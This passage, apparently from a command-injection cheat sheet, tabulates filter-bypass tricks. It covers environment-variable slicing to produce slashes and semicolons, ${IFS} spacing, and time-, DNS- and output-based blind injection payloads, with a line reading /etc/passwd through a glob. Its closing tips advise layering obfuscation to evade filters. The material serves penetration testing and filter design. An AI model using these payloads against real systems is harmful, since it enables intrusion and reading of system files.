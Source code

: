 |PowerShell Variables|$env:COMSPEC.SubString(0,1)|PowerShell substring|$env:windir[0]|

## 6. Environment Variable Methods

|Variable|Usage|Description|Example|
|---|---|---|---|
|PATH|${PATH:0:1}|Extract slash|ls${PATH:0:1}etc|
|HOME|${HOME:0:1}|First character|${HOME:0:1}bin|
|PWD|${PWD:0:1}|Current directory|${PWD:0:1}tmp|
|USER|${USER:0:1}|Username first char|echo${IFS}${USER}|
|SHELL|${SHELL:0:1}|Shell path first char|${SHELL:0:1}bin|
|HOSTNAME|${HOSTNAME:0:1}|Hostname first char|echo${IFS}${HOSTNAME}|
|LS_COLORS|${LS_COLORS:10:1}|Extract semicolon|ls${LS_COLORS:10:1}id|
|LANG|${LANG:0:1}|Language setting|echo${LANG:0:1}|
|PS1|${PS1:0:1}|Prompt setting|echo${PS1:0:1}|
|TERM|${TERM:0:1}|Terminal type|echo${TERM:0:1}|

## 7. Advanced Techniques

|Category|Method|Example|Description|
|---|---|---|---|
|Time-Based|sleep${IFS}5|Execute with delay|Useful for blind injection|
|Output-Based|whoami>out.txt|Redirect to file|File-based output capture|
|Error-Based|cat${IFS}/nonexistent 2>&1|Error message injection|Leverages error messages|
|DNS-Based|nslookup${IFS}domain.com|DNS query injection|Network-based detection|
|Nested Commands|$($(echo whoami))|Double substitution|Complex command nesting|
|Parameter Expansion|${PWD##*/}|Path manipulation|Directory extraction|
|Arithmetic Expansion|$((5+5))|Math operations|Numeric calculations|
|Glob Patterns|/etc/p[a]sswd|Pattern matching|Filename expansion|
|Process Substitution|<(ls)|Command output as file|Advanced redirection|
|Here Strings|<<<'string'|String input|Input without files|

## Notes and Best Practices

1. Always consider the target environment (Windows vs Linux) when selecting techniques
2. URL encoding may be necessary depending on the injection point
3. Some characters may be filtered requiring alternative approaches
4. Command separators might need to be combined with other techniques
5. Environmental variables can provide alternatives for blocked characters
6. Consider using multiple layers of obfuscation for complex bypass scenarios
7. Test commands locally before attempting injection
8. Be aware of system-specific limitations and restrictions
9. Document successful bypass techniques for future reference
10. Consider the impact of different shell environments

